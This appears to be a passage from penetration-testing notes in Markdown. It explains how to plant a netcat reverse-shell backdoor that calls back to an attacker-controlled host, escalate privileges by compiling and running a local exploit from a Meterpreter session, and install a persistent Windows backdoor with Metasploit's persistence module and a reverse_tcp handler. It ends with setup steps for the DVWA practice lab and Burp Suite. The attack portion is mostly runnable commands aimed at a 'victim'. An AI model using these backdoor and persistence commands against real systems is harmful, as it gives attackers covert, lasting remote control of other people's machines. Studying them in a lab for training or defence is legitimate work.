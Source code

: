  - **Netcat backdoor**. To install a Netact backdoor, the server has to run netcat or we have to upload the netcat.exe file to the server. This backdoor is easy to set up:
     - On the attacker's host run `nc -lvp 12345` to listen for connections at port `12345`.
     - Whatever the way, sneak into the victim the following code `nc ATTACK_IP 12345 -e /bin/bash`.
     - This technique can be used to open up a shall if it was not already open before (for example if the code is injected by other means, e.g. web interface)
     - You can also use exploit to escalate priviledges, for example using the netlink/udev vulnerability. In this case:
         - Open a meterpreter with low priviledges
         - `upload` a `run` file as the one in the `venom` folder and the `8572.c` file (check the `searchsploit`) to `/tmp`.
         - From the low-priiledged meterpreter, compile the c file `gcc -o exploit 8572.c` and execute it via `./exploit NETLIK_IP`.
         - Find the Netlink IP in the `/proc/net/netlink` file.
 - **Persistent backdoors for Windows**: `run post/windows/manage/persistence_exe -h` on the meterpreter and set `run post/windows/manage/persistence_exe -U -i 5 -p 443 -r 192.168.1.71`. Now the persistent backdoor is installed. To reboot the system and check the persistence use `reboot` in the meterpreter and `exit`. Then, to manage the backdoor connections installed to the victim, we can use the generic module `handler`.
     - `use exploit/multi/handler`.
     - `set PAYLOAD windows/meterpreter/reverse_tcp` this payload will inject the shell.
     - `set LHOST 192.168.1.71` this is the hacker computer, to receive the shell.
     - `set LPORT 443` this is the attacker's port to listen to.
     - `exploit` this commands sends the exploit.
     - `sysinfo` to check the newly opened meterpreter session.

# Appendix: A Damn Vulnerable Web App
## Install the DVWA
You can have fun with webapp attacks using DVWA docker.
```
docker pull vulnerables/web-dvwa
```
And then run it on port 80:
```
docker run --rm -it --ip 172.18.0.7 --network msf -p 88:80 vulnerables/web-dvwa
```
Just click on the Create / Reset database button and it will generate any aditional configuration needed.

Access the app with admin:password at:
```
http://localhost:88/login.php
```
If you want to attack the app with metasploit, then `setg RHOST 172.17.0.3`.

## Install Burp Suite Free
You can download the latest version [here](https://portswigger.net/burp/communitydownload). 

### Introduction
Burp suite is a proxy. You will make all your traffic from and to your computer pass through burp.
Being a proxy you can send forged requests, do bruteforcing attacks and even some statistical analysis of tokens.
